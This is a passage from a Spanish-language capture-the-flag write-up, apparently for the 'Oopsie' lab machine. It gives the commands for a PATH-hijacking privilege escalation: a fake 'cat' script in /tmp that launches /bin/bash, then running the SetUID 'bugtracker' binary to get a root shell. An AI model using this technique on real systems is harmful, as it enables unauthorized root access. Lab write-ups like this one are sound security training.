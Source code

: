 1. Cambio de directorio a `/tmp/`: `cd /tmp/`	

2. Creación de un archivo llamado `cat` en `/tmp/` que ejecutará `/bin/bash`: `echo '/bin/bash' > cat`

3. Cambio de permisos para hacer el archivo ejecutable: `chmod +x cat`

4. Modificación del PATH para que `/tmp/` tenga prioridad, de modo que el sistema ejecute el archivo `cat` de `/tmp/` en lugar del binario legítimo del sistema: `export PATH=/tmp:$PATH`

5. Verificación del nuevo PATH: `echo $PATH /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin`

	El directorio `/tmp/` ahora tiene prioridad en el **PATH**, lo que significa que cualquier comando ejecutado por el sistema primero buscará en `/tmp/` antes de buscar en las ubicaciones predeterminadas, como `/bin/`.

7.  Ejecución del comando `bugtracker`: Al ejecutar `bugtracker`, el sistema invoca el archivo `cat` desde `/tmp/`, que en realidad es un script que ejecuta `/bin/bash` con privilegios de root debido al SetUID de `bugtracker`.

8. Obtención de privilegios de root: Cuando el comando `bugtracker` se ejecuta, se ejecuta el archivo `cat` en `/tmp/` con privilegios de root, y el usuario es capaz de ejecutar comandos como root: `whoami && id root uid=0(root) gid=1000(robert) groups = 1000 (robert), 1001 (bugtracker)`

Una vez obtenido root en el sistema hemos finalizado la máquina y por ende terminamos la máquina:

![Oopsie yw4rf](oopsie-pwnd.png)